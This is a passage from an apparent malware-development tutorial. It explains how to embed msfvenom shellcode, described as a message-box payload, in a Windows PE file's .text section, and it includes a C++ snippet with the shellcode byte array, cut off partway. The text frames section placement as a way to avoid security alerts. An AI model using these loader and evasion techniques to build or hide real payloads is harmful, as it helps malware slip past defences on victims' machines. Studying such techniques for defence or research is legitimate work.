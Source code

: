 This payload or shellcode (whatever you call it) is a set of instructions and if executed will be calling a messagebox with the message we specified to msvenom, now we have our bullet, and we need to start on the GUN that'll hold and deliver this bullet!

# Storing payload

As we know, every PE file has sections, each sections hold a specific type of data, we can control where will our payload be located, next I will explain how we can place the payload in different sections and what is the benifit of each way.

## .text section

Placing the payload inside the text section means that it is in an executable region by default, as .text section holds the code of the PE file, so your payload will be eventually a part of the code itself, however that section should not by default be writeable, only executable .text section is normal, Modifying the payload by any how during execution will make the section writeable and hence throwing an alert which is something we don't want.

example of normal .text section's permission:

![P2](/assets/images/malware-development/2-1.png)

Code: 
```cpp
#include <iostream>
#include <windows.h>

#pragma section(".text")

__declspec(allocate(".text")) const unsigned char buf[] = "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
    "\x4c\x8d\x85\x15\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
```